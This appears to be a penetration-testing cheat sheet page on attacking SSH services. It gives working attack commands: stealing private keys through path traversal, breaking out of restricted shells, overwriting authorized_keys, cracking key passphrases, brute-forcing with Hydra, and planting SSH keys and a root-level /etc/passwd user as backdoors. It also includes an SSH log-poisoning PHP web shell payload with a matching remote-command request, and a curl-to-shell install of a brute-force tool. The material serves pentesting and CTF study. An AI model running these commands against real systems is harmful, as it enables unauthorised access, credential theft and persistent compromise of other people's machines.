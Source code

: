 ```yaml
---
layout: default
title: SSH
parent: TCP
nav_order: 4-2
---
```

# SSH | 22
## Methodology
- Do you have valid credentials?
- Do you have real system-level users in which to access SSH with?
- ALWAYS check for user password re-use
- Dealing with id_rsa files - ALWAYS chmod 600 id_rsa
- Collect user SSH keys if able to read: "id_rsa" e.g. somefile.php?file=../../../../home/user/.ssh/id_rsa
- If able to write, drop a SSH key into the user or root directory for login (/root/.ssh/id_rsa)
- Are you able to read the SSH logs (SSH Log Poisoning): /var/log/auth.log
- If you have a SSH key needing a passphrase try to crack it using ssh2john (see attacks below)

<br/>
###  Restrictive Shell
If you have access to the <i>echo</i> command it is possible to use the built-in API to break out:
<br />
```echo os.system("/bin/bash")```
<br />
Break out of <b> RBash </b>:
``` ssh restricted@$IP -p 31678 -t "bash --noprofile"
OR 
ssh user@$IP "/bin/sh"```

<br />

### SSH Access Denied - pty restricted
- If you can read the 'authorized_keys' file, you may see there is a 'no-pty' option
- We may be able to replace this file if we have an SSH key for the target user using <b>scp</b> with a public key. 
Copy the authorised key, remove the 'no-pty' option  and then place it back on the target, overwriting the blocking file

``` scp -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```

> This uses an id_rsa key we have previously obtained for a user called 'dude' and replaces authorized_keys with our modified file

Note: If you are not allowed to produce output on the target, use the -O flag

``` scp -O  -i id_rsa authorized_keys dude@192.168.150.150:.ssh/authorized_keys ```


<br />
### Check the following locations for private keys:
<ul>
<li>/home/* </li>
<li>/root/.ssh/* </li>
<li>/etc/ssh/ssh_config</li>
<li> /etc/ssh/sshd/ssh_config</li>
<li> ~/.ssh/*</li>
</ul>

<br />
### Identify the host for the private key:
Check the following locations:
<ul>
<li> /etc/hosts </li>
<li> ~/.known_hosts </li>
<li> ~/.bash_history </li>
<li> ~/.ssh/config </li>
</ul>

<br />

### Command Reference
<b> Search for files containing SSH Keys:</b> <br />
```grep -ir "-----BEGIN RSA PRIVATE KEY-----" /home/*``` <br />
```grep -ir "BEGIN DSA PRIVATE KEY" /*``` <br />

<b> SSH with id_rsa </b> <br />
``` ssh -i id_rsa user@$IP ``` <br />

<b> Crack id_rsa with John (SSH2John) </b> <br />
``` ssh2john id_rsa > crackthis
john crackthis --wordlist=/usr/share/wordlists/rockyou.txt```

<b> SSH Keygen & Back Door (post exploitation) </b> <br />
Generate a new SSH key pair with: <br />
```ssh-keygen -b 2048 -t rsa -f ~/.ssh/new-key-name
chmod 600 new-key-name``` <br />
Drop the 'new-key-name.pub' file into the target /home/usr/.ssh directory. <br />
Connect with: ```ssh -i new-key-name user@$IP```
<b> Add a backdoor as a user </b>
- If you have write access either or via a shell script or other method, append a custom user
```
openssl passwd -1
I.R.noob
$1$istMeAqZ$bjVoxT/.whgAs3t3eNcM3/
echo 'backup:$1$istMeAqZ$bjVoxT/.whgAs3t3eNcM3/:0:0:backup:/home/backup:/bin/bash' >> /etc/passwd
su backup
```
<br />

### Tools
- <a href="https://github.com/pwnesia/ssb"> Secure Shell Bruteforcer (SSB) </a> <br />
```curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin ``` <br />
```ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname```

<br />
### Attacks
<b>SSH Log Poisoning</b>
(RCE via SSH Log Poisoning)
Example PHP web server (capable of viewing the logs):
- Enter something like: ```testlogpoisoning/<?php passthru($_GET['cmd']); ?>``` 
- Refresh the accessible log page - find the newest entry (towards the bottom) and you may see the characters 'testlogpoisoning/'
> This verifies command execution after the format '/' providing executive authority over the machine
``` https://example.com/somefile.php?file=../../../../var/log/auth.log&cmd=id ```
> reopen the file, scroll down and find the results of the command printed

<br />
<b> SSH Brute Force</b>
- Hydra
``` hydra -V -L UserList -P PasswordList ssh://$IP ```
- SSB

<br />
<b> Crack an SSH Key Passphrase with SSH2john </b>
- chmod 600 id_rsa
```ssh2john id_rsa > crackme.hash```<br /> ```john --wordlist=/usr/share/wordlists/rockyou.txt crackme.hash```

<br />

#### SSH 'should' be running?
- Is there a HTTP proxy on the server? SSH may be running but not open to the world - instead of on 0.0.0.0, it may be local on 127.0.0.1
- If this is the case, it is possible to forward out the loopback address with <b> proxytunnel </b>
``` proxytunnel -p $IP:3128 -d 127.0.0.1:22 -a 4444 ```
> Spawn a daemon on our attacking machine (accessible on 4444)
``` ssh user@127.0.0.1 -p 4444 ```

<br />

###### [REFERENCES]
<a href="https://highon.coffee/blog/ssh-lateral-movement-cheat-sheet/#what-is-a-lateral-movement"> SSH Lateral Movement Cheatsheet </a>
